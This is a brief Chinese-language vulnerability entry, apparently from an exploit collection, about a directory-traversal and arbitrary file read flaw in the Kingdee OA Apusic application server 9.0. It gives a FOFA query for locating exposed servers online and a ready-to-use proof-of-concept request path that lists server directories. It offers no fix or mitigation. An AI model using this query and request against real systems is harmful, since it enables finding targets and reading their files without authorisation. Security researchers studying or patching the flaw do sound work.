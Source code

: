 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

```
金蝶OA 9.0 Apusic应用服务器(中间件)
```

## FOFA

```
app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"
```

## 漏洞复现

登录页面

![image-20220520142557418](./images/202205201425611.png)

验证POC

```
/admin/protected/selector/server_file/files?folder=/
```

![image-20220520142704544](./images/202205201427636.png)